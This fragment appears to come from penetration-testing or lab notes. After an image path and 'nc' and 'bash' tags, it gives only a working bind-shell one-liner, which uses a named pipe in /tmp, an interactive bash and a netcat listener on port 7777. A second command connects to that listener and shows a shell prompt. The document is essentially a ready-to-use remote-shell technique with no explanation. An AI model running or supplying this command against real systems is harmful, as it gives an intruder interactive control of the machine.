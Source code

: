 [[nc]] [[bash]]
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

```shell
nc -nv 10.129.41.200 7777

Target@server:~$  
```
